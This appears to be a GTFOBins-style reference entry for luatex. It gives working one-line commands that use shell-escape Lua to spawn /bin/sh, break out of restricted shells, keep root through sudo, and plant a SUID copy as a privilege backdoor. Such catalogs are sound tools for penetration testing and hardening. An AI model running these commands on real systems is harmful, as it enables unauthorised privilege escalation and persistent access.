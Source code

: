 # GTFOBin: luatex

This allows to execute `lua` code.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which luatex) .

./luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
```